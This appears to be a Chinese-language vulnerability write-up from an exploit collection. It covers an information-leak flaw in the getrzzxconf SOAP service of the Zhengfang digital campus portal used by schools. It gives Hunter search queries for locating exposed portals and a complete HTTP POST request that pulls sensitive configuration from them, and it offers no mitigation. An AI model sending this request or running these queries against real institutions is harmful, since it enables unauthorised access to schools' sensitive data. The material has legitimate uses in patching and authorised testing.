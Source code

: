 # 一、漏洞简介
正方数字化校园信息门户平台通过对校园现有的各种系统和资源的有效集成整合，以门户的形式为学校教师、学生提供其所需的各种信息与服务，来提高校园核心竞争力，是数字化校园的重要组成部分。正方数字化校园平台getrzzxconf存在信息泄漏漏洞，攻击者可通过该漏洞获取敏感信息。

# 二、影响版本
+ hunter`(web.title="正方数字化校园信息门户"||web.title="数字化校园信息门户"||web.title="统一身份认证中心")&&web.body="正方"`、`web.body="zfca/login"&&web.body="login_bg"`
+ 特征

![](images/1702283487709-918c059e-9f97-4350-afe6-913323b0c83d.png)

# 四、漏洞复现
```plain
POST /zfca/axis/RzzxConfManage HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=C5BA8FCE6078136DED5E9ABFAFBD023D
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: {hostname}
Content-Length: 402

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:pub="http://pubService.webServices.zfca.zfsoft.com">
   <soapenv:Header/>
   <soapenv:Body>
      <pub:getrzzxconf soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
   </soapenv:Body>
</soapenv:Envelope>
```

![](images/1702287192756-5428e557-1bf2-4c4d-beb4-5752ea4599ce.png)

